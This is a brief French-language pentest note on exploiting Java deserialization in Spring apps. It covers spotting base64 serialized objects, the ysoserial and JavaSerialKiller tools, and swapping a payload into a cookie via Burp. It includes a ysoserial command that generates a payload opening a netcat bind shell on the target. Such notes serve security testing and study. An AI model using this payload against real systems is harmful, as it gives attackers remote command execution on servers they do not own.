

# Spring - ObjectInputStream

Le problème vient du fait que l'application utilise la méthode readObject() sur des donnée provenant de l'utilisateur.

Il faudra trouver l'objet encodé en base64 (reperable par le bout de string "rO0" qui est une version encodé de "\xac\xed\x00" )&#x20;

Une foix l'objet trouvé on le remplacera via notre playload encodé en base64.

Outils : [ysoserial  ](https://github.com/frohoff/ysoserial)ou  [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller) (extension burp)&#x20;

Utilisation de ysoserial :  &#x20;

```bash
java -jar ysoserial-0.0.4-all.jar Spring1 '/usr/bin/nc -l -p 9999 -e /bin/sh' | base64 -w 0
```

Dans l'exemple ci-dessous nous remplaçon le cookie qui etait l'objet passant par readObject() via Burp.&#x20;

<figure><figcaption></figcaption></figure>


